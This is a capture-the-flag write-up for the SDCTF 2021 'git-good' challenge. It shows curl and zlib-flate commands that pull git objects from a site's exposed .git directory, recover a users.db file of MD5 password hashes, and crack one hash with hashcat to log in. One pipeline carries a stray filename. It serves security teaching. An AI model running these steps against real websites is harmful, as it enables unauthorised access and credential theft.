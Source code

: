 # git-good - SDCTF 2021

One of the web challenges of SDCTF 2021 was "git-good", where we are given the story

> We've been issued a challenge by the primary competing cyber organization on campus,
> the Cybersecurity Group at UCSD.
> You have been granted permission to try and hack into their admin portal to steal their flag.
> They've been hardening their website for some time now, and they said they think its "unhackable".
> Show them how wrong they are!

and the link `https://cgau.sdc.tf/`
([Web Archive](https://web.archive.org/web/20210516124135/https://cgau.sdc.tf/)).

## The vulnerability

The challenge name "git-good" implied that the website's git repository was unprotected.
That is, the `.git` directory was publicly accessible in the webroot.
However, when an attempt was made to access the directory it was found that directory autoindexing
(a common security hole) was disabled:

```
Cannot GET /.git/
```

so the task was made more difficult by the necessity of knowing which paths to `GET` in advance.

## Getting the HEAD

Knowing that `.git` directories follow a common structure, a new git repository was created locally
and examined:

```bash
$ ls
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
```

we know from git documentation that the `HEAD` of the repository is the currently checked-out version
of the tracked files, so we follow the references:

```bash
$ cat HEAD
ref: refs/heads/master
$ cat refs/heads/master
# Commit hash here
```

doing this on the website led to the following commit hash:

```bash
$ curl https://cgau.sdc.tf/.git/refs/heads/master
0b23360a5d79ecf5241fd6790edd619304825b9a
```

where the hash is a reference to a file stored in the `objects` directory.

## Git objects

The file is found in a subdirectory named after the first two characters of the hash
and is named after the remaining characters of the hash.
Each file storing a git object is zlib compressed.
The commit hash above leads to:

```bash
$ curl https://cgau.sdc.tf/.git/objects/0b/23360a5d79ecf5241fd6790edd619304825b9a | zlib-flate -uncompress
commit 217tree 426ec68a64f6fe89ec40a3352213703792e080cb
parent d8eb39e3e2bb984ce687768d20f58d962942841d
author Aaron <aaron@cgau.sdc.tf> 1610830733 -0800
committer KNOXDEV <nick@knox.codes> 1610831055 -0800

Upgraded to bcrypt
```

where "upgraded to bcrypt" is probably a reference to a database of password hashes for the website's
admin panel. If the hashing algorithm was "upgraded" to bcrypt, then it must previously have been a
weaker algorithm. This is important, because bcrypt is a reasonably secure, recommended hash algorithm.
Most importantly, bcrypt hashes are salted, meaning we will not be able to use precomputed tables
of hash values to crack the passwords. This means cracking the bcrypt hashes is not feasible during the
timeframe of the competition. The previous commit referenced by the `parent` hash
will contain the old hashes:

```bash
$ curl https://cgau.sdc.tf/.git/objects/d8/eb39e3e2bb984ce687768d20f58d962942841d | zlib-flate -uncompress
commit 165tree 7e23e8d425a5f91a7f5e70d6c7cc6d7811db661d
author Aaron <aaron@cgau.sdc.tf> 1610830369 -0800
committer KNOXDEV <nick@knox.codes> 1610831041 -0800

Initial commit
$ curl https://cgau.sdc.tf/.git/objects/7e/23e8d425a5f91a7f5e70d6c7cc6d7811db661d | zlib-flate -uncompress
# Binary data
```

Following the commit's tree hash leads to some binary data
in [a specific git tree format](https://www.dulwich.io/docs/tutorial/file-format.html#the-tree).
Most importantly, this format contains file names and hashes of the corresponding git object.
The file names contained in the tree are:

```
.gitignore
admin.html
app.js
image1.png
index.html
package-lock.json
package.json
robots.txt
users.db
```

and we can clearly see that the admin panel is located at `admin.html`
([Web Archive](http://web.archive.org/web/20210516132225/https://cgau.sdc.tf/admin.html))
and the users database with the password hashes is `users.db`.
Following the corresponding object hash gives:

```bash
$ curl https://cgau.sdc.tf/.git/objects/7e/23e8d425a5f91a7f5e70d6c7cc6d7811db661d | zlib-flate -uncompress | tail -c 20 test3_uncomp | xxd -p
84f191442c8479c4cbd67937b9cbe3df2038be63
$ curl https://cgau.sdc.tf/.git/objects/84/f191442c8479c4cbd67937b9cbe3df2038be63 | zlib-flate -uncompress
# Binary data
```

binary data in [git blob format](https://www.dulwich.io/docs/tutorial/file-format.html#the-blob),
which is just a brief null-terminated blob header followed by the file content. In this case:

```
blob 8192^@SQLite format 3
```

the file is a SQLite database, and stripping out the header results in the original `users.db` file.
Uploading this to [an online SQLite database viewer](https://inloop.github.io/sqlite-viewer/)
gives the following table:

| id | email | password |
| -------- | -------- | -------- |
| 1 | `aaron@cgau.sdc.tf` | `e04efcfda166ec49ba7af5092877030e` |
| 2 | `chris@cgau.sdc.tf` | `c7c8abd4980ff956910cc9665f74f661` |
| 3 | `yash@cgau.sdc.tf` | `b4bf4e746ab3f2a77173d75dd18e591d` |
| 4 | `rj@cgau.sdc.tf` | `5a321155e7afbf0cfacf1b9d22742889` |
| 5 | `shawn@cgau.sdc.tf` | `a8252b3bbf4f3ed81dbcdcca78c6eb35` |

where each hash is 32 hexadecimal digits long, which is 16 bytes (128 bits).
This suggests that the hash algorithm is MD5.
Alternatively, the emails and corresponding hashes could have also been
obtained by running `strings` on the SQLite file.

## Cracking the hashes

Running [the latest version of hashcat](https://hashcat.net/hashcat/) using the
[rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/)
on the hashes gives:

```bash
$ cat hashes
e04efcfda166ec49ba7af5092877030e
c7c8abd4980ff956910cc9665f74f661
b4bf4e746ab3f2a77173d75dd18e591d
5a321155e7afbf0cfacf1b9d22742889
a8252b3bbf4f3ed81dbcdcca78c6eb35
$ ./hashcat.bin -m 0 hashes rockyou.txt
# Output
$ cat hashcat.potfile 
e04efcfda166ec49ba7af5092877030e:weakpassword
```

so logging in as `aaron@cgau.sdc.tf` with password `weakpassword`
on the admin panel gives flag `sdctf{1298754_Y0U_G07_g00D!}`.
